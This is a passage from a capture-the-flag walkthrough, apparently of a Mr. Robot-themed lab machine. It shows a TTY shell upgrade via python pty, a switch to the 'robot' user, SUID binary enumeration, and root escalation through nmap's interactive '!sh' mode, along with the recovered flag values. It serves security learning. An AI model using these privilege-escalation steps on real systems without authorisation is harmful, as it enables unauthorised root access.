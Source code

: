 Now we need to spawn a shell with TTY to be able to su the 'robot' user:
```bash
/bin/sh -i
/bin/sh: 0: can't access tty; job control turned off
```
Simple solution didn't work, how about more sophisticated?
```bash

python -c 'import pty; pty.spawn("/bin/sh")'
$ su - robot
Password: abcdefghijklmnopqrstuvwxyz
$ whoami
robot
$ cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

## Flag 3

Last thing left to do here os tp get root. How can we do that? For starters lets try to find out application with SUID and owned by root:
```bash
$ find / -user root -perm -4000 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
As we can see there's nmap application. We can use it spawn shell with root privileges:
```bash
$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
whoami
root
```

Yay! We have root. Last thing to do: find a flag. Since we could establish a pattern how the flag files are named let's just try to find it:
```bash
$ find / -name key-3-of-3.txt
/root/key-3-of-3.txt
$ cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
